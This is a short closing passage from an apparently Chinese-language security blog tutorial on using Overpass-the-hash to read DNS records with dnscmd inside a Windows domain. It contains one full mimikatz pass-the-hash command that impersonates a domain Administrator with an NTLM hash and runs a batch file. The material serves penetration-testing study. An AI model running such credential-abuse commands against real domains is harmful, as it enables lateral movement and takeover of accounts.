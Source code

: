 
```
mimikatz.exe privilege::debug "sekurlsa::pth /user:Administrator /domain:test.com /ntlm:A55E0720F0041193632A58E007624B40 /run:\"cmd.exe /c c:\test\1.bat\""
```

**注：**

cmd.exe下`"`需要使用转义字符`\"`


## 0x05 小结
---

本文介绍了在域内使用Overpass-the-hash实现dnscmd远程读取DNS记录的方法



---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)





